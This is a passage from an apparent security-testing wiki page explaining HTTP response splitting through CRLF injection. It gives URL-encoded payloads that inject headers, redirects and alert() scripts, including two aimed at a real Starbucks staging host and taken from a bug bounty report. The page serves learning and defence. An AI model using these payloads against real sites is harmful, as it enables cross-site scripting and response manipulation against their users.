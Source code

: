 ### HTTP Response Splitting

#### Description

HTTP Response Splitting is a security vulnerability that arises when an attacker exploits the structure of HTTP responses. This structure separates headers from the body using a specific character sequence, Carriage Return (CR) followed by Line Feed (LF), collectively termed as CRLF. If an attacker manages to insert a CRLF sequence into a response header, they can effectively manipulate the subsequent response content. This type of manipulation can lead to severe security issues, notably Cross-site Scripting (XSS).

#### XSS through HTTP Response Splitting

1. The application sets a custom header like this: `X-Custom-Header: UserInput`
2. The application fetches the value for `UserInput` from a query parameter, say "user_input". In scenarios lacking proper input validation and encoding, an attacker can craft a payload that includes the CRLF sequence, followed by malicious content.
3. An attacker crafts a URL with a specially crafted 'user_input': `?user_input=Value%0d%0a%0d%0a<script>alert('XSS')</script>`
   - In this URL, `%0d%0a%0d%0a` is the URL-encoded form of CRLFCRLF. It tricks the server into inserting a CRLF sequence, making the server treat the subsequent part as the response body.
4. The server reflects the attacker's input in the response header, leading to an unintended response structure where the malicious script is interpreted by the browser as part of the response body.

#### An example of HTTP Response Splitting leading to Redirect

From [https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62](https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62)

Browser to:

```
/%0d%0aLocation:%20http://myweb.com
```

And the server responses with the header:

```
Location: http://myweb.com
```

**Other example: (from** [**https://www.acunetix.com/websitesecurity/crlf-injection/**](https://www.acunetix.com/websitesecurity/crlf-injection/)**)**

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```

#### In URL Path

You can send the payload **inside the URL path** to control the **response** from the server (example from [here](https://hackerone.com/reports/192667)):

```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```
